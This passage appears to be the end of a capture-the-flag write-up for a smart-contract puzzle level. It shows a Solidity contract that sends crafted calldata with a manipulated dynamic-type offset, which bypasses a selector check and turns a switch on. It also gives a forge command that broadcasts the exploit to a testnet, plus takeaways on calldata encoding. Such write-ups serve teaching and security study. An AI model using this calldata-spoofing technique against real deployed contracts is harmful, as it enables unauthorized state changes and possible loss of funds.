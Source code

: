 ### In Foundry using `forge`:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Switcher {
    address private immutable switchContract;
    bytes4 public onSelector = bytes4(keccak256("turnSwitchOn()"));
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()"));

    constructor(address _switchContract) {
        switchContract = _switchContract;
    }

    function toogle() public {
        bytes
            memory data = hex"30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000";

        (bool success, ) = switchContract.call(data);
        require(success, "Toogle failed!");
    }
}
```

The command to run the script:

```bash
forge script script/29_Switch.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Calldata encoding is a crucial part of the Ethereum Virtual Machine (EVM).
- Assuming positions in CALLDATA with dynamic types can be erroneous, especially when using hard-coded CALLDATA positions.

## Reference

- Transaction Calldata Demystified: https://www.quicknode.com/guides/ethereum-development/transactions/ethereum-transaction-calldata

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
